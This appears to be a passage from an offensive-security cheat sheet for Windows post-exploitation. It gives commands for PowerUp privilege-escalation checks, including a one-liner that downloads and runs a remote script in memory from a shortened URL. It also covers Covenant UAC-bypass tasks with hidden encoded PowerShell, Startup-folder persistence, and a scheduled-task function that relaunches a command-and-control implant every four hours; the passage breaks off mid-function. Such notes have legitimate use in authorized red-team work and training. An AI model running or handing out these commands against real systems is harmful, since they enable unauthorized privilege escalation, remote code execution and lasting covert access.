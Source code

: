 #### 1) PowerUp

```py
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks | Out-File -Encoding ASCII Allchecks.txt
```

If you want to invoke everything without touching disk, use something like this:

```py
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”
```


#### 2) UAC Bypasses

Covenant has `BypassUACCommand` and `BypassUACGrunt` Tasks which can be used 

```cpp
SharpShell /code:"var startInfo = new System.Diagnostics.ProcessStartInfo { FileName = @\"C:\Windows\System32\Taskmgr.exe\", WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden }; var taskmgr = new System.Diagnostics.Process { StartInfo = startInfo }; taskmgr.Start(); return taskmgr.Id.ToString();"

BypassUACCommand cmd.exe "/c powershell -enc [...snip...]"
```


# Persistence

##### 1) Classic Startup folder

Just drop a binary in current user folder, will trigger when current user signs in:

```py
"C:\Users\[USERNAME]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
```
Or in the startup folder, requires administrative privileges but will trigger as SYSTEM on boot and when any user signs on:

```py
"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

##### 2) Schedule Tasks

This PowerShell script will execute a new Grunt (using our existing PowerShell payload) every 4 hours for up to 30 days. If you omit the RepetitionDuration option in the trigger, it will repeat indefinitely.

```powershell
function New-ScheduledTaskPersistence {

    $name = "Persistence"
  
    $trigger = New-ScheduledTaskTrigger `
        -Once `
        -At 11am `
        -RepetitionInterval (New-TimeSpan -Hours 4) `
        -RepetitionDuration (New-TimeSpan -Days 30)
  
      $action = New-ScheduledTaskAction `
        -Execute "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" `
        -Argument "-Sta -Nop -Window Hidden -EncodedCommand " `
        -WorkingDirectory "C:\Windows\System32"
  
      Register-ScheduledTask `
        -TaskName $name `
```